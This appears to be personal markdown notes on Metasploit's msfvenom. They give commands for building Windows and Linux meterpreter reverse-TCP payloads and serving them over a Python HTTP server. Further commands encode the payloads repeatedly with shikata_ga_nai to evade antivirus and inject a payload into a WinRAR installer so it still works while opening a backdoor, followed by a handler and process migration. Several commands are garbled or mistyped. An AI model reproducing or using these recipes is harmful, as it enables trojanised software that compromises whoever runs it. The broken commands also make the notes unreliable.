 # 🛠️ MSFVENOM
	
	
msfvenom --list 

x64 <- 64 bit 
x86 <- 32 bit



-a <- architecture

-p payload
##Windows Examples
```bash
msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe

msfvenom -a x64 -p /windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe
```

msfvenom --list --format

elf <- binary linux file executable


elf-so <- shared object

jar <- java file

osx-app <- mac

in linux no need to mention -a arcitecture 

msfvenom -p /linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload32

no need to mention .elf

chmod +x payload64

msfvenom -p /linux/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload64

python3 -m http.server 8080

pythom -m SimpleHTTPServer 80

#		 ENCODEING PAYLOAD 
		
		
we can envade older AV sol by encoding our payloads

encoding is modifying payload shellcode with the objective of modifying the payload signature

msfvenom --list encoders

best <- x86/shikata_ga_nai  ploymorphic xor additive feedback encoder

msfvenom -p windows/meterpreter/reverse_tcp LHOST=   LPORT = ..... -e x86/shikata_ga_nai -f exe > payload
```bash
 output: Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		xB6/shikata_ga_nai succeeded with size 381 (iteration=0)
		x86/shikata_ga_nai chosen with final size 381
		Payload size: 381 bytes
		Final size of exe file: 73802 bytes
```		 
  
  
  
  more interation of encode more chance of bypassing the AV
  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT =<PORT> -i 10 -e x86/shikata_ga_nai -f exe > payload
 
 	output:
		Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
		<86/shikata_ga_nai succeeded with size 381 (iteration=0)
		<86/shikata_ga_nai succeeded with size 408 (iteration=1)
		<86/shikata_ga_nai succeeded with size 435 (iteration=2)
		<86/shikata_ga_nai succeeded with size 462 (iteration=3)
		<86/shikata_ga_nai succeeded with size 489 (iteration=4)
		<86/shikata_ga_nai succeeded with size 516 (iteration=5)
		<86/shikata_ga_nai succeeded with size 543 (iteration=6)
		86/shikata_ga_nai succeeded with size 570 (iteration=7)
		86/shikata_ga_nai succeeded with size 597 (iteration=8)
		<86/shikata_ga_nai succeeded with size 624 (iteration=9)
		<86/shikata_ga_nai chosen with final size 624
		Payload size: 624 bytes
		Final size of exe file: 73802 bytes
  
  
  same for linux
but it is much smaller than windows payloads



#  Injecting Payloads Into Windows Portable Executables 

msfvenom -x or --template for specify custom template also use -k or --keep to save behaviour and inject payload as a new thread

BEST option winRAR executable

generate 32 bin meterpreter payload then inject it in winrar setup file

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe > ~/Download/wrar32.exe > ~/payloads/winrar.exe

sudo python3 -m http.server 8080


msfconsole 
use mulit/handler
set payload window/meterpreter/reverse_tcp
 
 > run post/windows/manage/migrate
 
 why? 
 ```bash
 ->a post-exploitation module known as "migrate," which is used in a Windows environment. Essentially, this tool helps move the process that a Metasploit payload is running on into another process. And the whole idea is to dodge any interferen from Windows that might shut down that original process. So if you run this migration command, it might, for instance, hop into something like a notepad.exe process and just carry on from there. It's like a little digital shapeshifter trick to keep things running smoothly. And from there, you don’t really have to sweat the details of those modules anymore. It's all part of the fun of post-exploitation magic.
 ```
 k option 
 it mentain the original functianily of the portabel exectable and then it will execute the meterpreter payload lyeing inside the executable
 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe *-k* > ~/Download/wrar32.exe > ~/payloads/winrarnew.exe 
  
  
  
  

